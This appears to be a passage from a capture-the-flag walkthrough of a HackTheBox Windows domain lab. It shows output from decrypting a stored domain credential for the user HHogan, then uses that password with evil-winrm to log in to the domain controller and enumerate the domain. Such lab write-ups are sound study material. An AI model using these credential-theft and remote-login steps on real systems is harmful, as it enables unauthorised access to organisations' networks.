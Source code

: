 ```markdown
  pbData             : f73b168ecbad599e5ca202cf9ff719ace31cc92423a28aff5838d7063de5cccd4ca86bfb2950391284b26a34b0eff2dbc9799bdd726df9fad9cb284bacd7f1ccbba0fe140ac16264896a810e80cac3b68f82c80347c4deaf682c2f4d3be1de025f0a68988fa9d633de943f7b809f35a141149ac748bb415990fb6ea95ef49bd561eb39358d1092aef3bbcc7d5f5f20bab8d3e395350c711d39dbe7c29d49a5328975aa6fd5267b39cf22ed1f9b933e2b8145d66a5a370dcf76de2acdf549fc97
  dwSignLen          : 00000014 - 20
  pbSign             : 21bfb22ca38e0a802e38065458cecef00b450976

Decrypting Credential:
 * volatile cache: GUID:{191d3f9d-7959-4b4d-a520-a444853c47eb};KeyHash:85285eb368befb1670633b05ce58ca4d75c73c77;Key:available
**CREDENTIAL**
  credFlags      : 00000030 - 48
  credSize       : 000000be - 190
  credUnk0       : 00000000 - 0

  Type           : 00000002 - 2 - domain_password
  Flags          : 00000000 - 0
  LastWritten    : 5/9/2023 11:03:21 PM
  unkFlagsOrSize : 00000018 - 24
  Persist        : 00000003 - 3 - enterprise
  AttributeCount : 00000000 - 0
  unk0           : 00000000 - 0
  unk1           : 00000000 - 0
  TargetName     : Domain:interactive=OFFICE\HHogan
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : OFFICE\HHogan
  CredentialBlob : <password here>
  Attributes     : 0
```
Use these credentials to log in with `evil-winrm`
```markdown
> evil-winrm -u hhogan -p <password here> -i dc.office.htb
```
Enumerate the domain.
```markdown
> Get-ADDomain

AllowedDNSSuffixes                 : {}
ChildDomains                       : {}
ComputersContainer                 : CN=Computers,DC=office,DC=htb
DeletedObjectsContainer            : CN=Deleted Objects,DC=office,DC=htb
DistinguishedName                  : DC=office,DC=htb
DNSRoot                            : office.htb
DomainControllersContainer         : OU=Domain Controllers,DC=office,DC=htb
DomainMode                         : Windows2016Domain
DomainSID                          : S-1-5-21-1199398058-4196589450-691661856
ForeignSecurityPrincipalsContainer : CN=ForeignSecurityPrincipals,DC=office,DC=htb
Forest                             : office.htb
InfrastructureMaster               : DC.office.htb
LastLogonReplicationInterval       :
LinkedGroupPolicyObjects           : {CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=office,DC=htb}
LostAndFoundContainer              : CN=LostAndFound,DC=office,DC=htb
ManagedBy                          :
Name                               : office
NetBIOSName                        : OFFICE
ObjectClass                        : domainDNS
ObjectGUID                         : b93712c7-b7a5-449e-b050-3e85e60db699
ParentDomain                       :
PDCEmulator                        : DC.office.htb
PublicKeyRequiredPasswordRolling   : True
```